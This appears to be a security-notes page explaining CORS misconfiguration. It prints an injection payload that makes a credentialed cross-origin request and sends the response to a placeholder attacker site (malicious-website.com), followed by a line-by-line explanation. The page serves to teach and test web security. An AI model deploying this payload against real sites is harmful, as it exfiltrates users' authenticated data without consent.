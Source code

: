 # Basic CORS JavaScript

CORS has always been a super confusing one for me, dunno why, but this page will go in a little more depth than the others.

## Injection Payloads

### XMLHttpRequest

```javascript
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','<$url/vulnerable_resource>',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
	   location='//malicious-website.com/log?key='+this.responseText;
	};
</script>
```

#### Explanation

**Steps**:

1. XMLHttpRequest: The XMLHttpRequest object is commonly used to make requests to a different domain (cross-origin requests) in web applications.

2. req.open(): In this line, the code is attempting to make a cross-origin request to a resource located at $url/vulnerable_resource. When making cross-origin requests using JavaScript, the browser enforces the Same-Origin Policy by default, which restricts scripts running on one origin from making requests to a different origin.

3. req.withCredentials: Setting the withCredentials property to true indicates that the request should include credentials (such as cookies or HTTP authentication) when making the cross-origin request. This triggers the browser to make a preflight request to the server to check if the cross-origin request is allowed.

4. req.send(): This method sends the cross-origin request to the server.

5. reqListener(): The reqListener function is called when the cross-origin request completes successfully. Inside this function, the code attempts to redirect the user to a different domain (malicious-website.com) and pass the response text of the original cross-origin request as a query parameter in the URL.

**Why this is a CORS Issue**:
* Cross-Origin Request: The script is making a request to a different origin (<$url/vulnerable_resource>) than the one that served the script. This is a cross-origin request, which is subject to CORS policies.

* Credentials: By setting withCredentials to true, the script is attempting to include user credentials (e.g., cookies) in the request. This requires the server to explicitly allow such requests through CORS headers.

* Data Exfiltration: The response from the cross-origin request is being sent to a malicious website. If the server does not properly handle CORS, it could inadvertently expose sensitive data to unauthorized origins.